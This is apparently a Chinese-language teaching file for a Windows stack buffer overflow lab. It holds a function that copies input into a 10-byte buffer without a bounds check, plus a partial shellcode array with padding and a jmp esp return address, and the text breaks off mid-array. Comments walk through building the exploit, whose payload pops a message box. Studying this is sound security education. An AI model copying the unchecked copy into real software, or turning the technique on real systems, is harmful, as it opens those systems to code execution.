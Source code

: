 #### 缓冲区溢出程序

```cpp
#include <stdio.h>
#include <windows.h>

/*
*	overflow.c 功能：缓冲区溢出程序执行体
*	作者：jlcss
*	开发环境：Microsoft Visual C++ 6.0
*/


//	加载user32.dll
int Load_user32_library()
{
	HINSTANCE h; 
	char dllname[12];
	strcpy(dllname, "user32");

	h = GetModuleHandleA(dllname); 
	if(h == NULL) 
	{ 
		h = LoadLibraryA(dllname); 
		if(h == NULL) 
		{ 
			printf("加载user32失败"); 
			return -1; 
		} 
	} 

	return 0;
}

//	溢出函数
void overflow(char * pShellcode, unsigned long dwLen)
{
	char buffer[10];
	memcpy( buffer, pShellcode, dwLen);
}

int main(int argc, char ** argv)
{
	// 定义shellcode指令集，用该指令集对部分堆栈空间进行填充，并实现指令跳转及弹出对话框功能的实现
	/*长前导码　unsigned char shellcode[] = {0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37, 0x38, 0x39, 
									   0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47, 0x48, 0x49, 0x50,
									   0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57, 0x58, 0x59, 0x60, 0x61,
									   0x62, 0x63, 0x64, 0x65, 0x66, 0x67, 0x68, 0x69,0x70, 0x71, 0x72
	};
	*/	

	// １.请根据实际调试结果从长前导码中截取片段，作为shellcode前导码

	// ２.查找包含有jmp esp指令的内存地址,并将其追加到shellcode尾。注意追加顺序(先低地址字节)

	// ３.CreateShellcode反汇编获得shellcode执行体，并将其追加至shellcode尾
	unsigned char shellcode[300] = {0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37, 
								0x38, 0x39, 0x40, 0x41, 0x42, 0x43, 0x44, 0x45,
									   0xda,0x24,0xe4,0x77,

```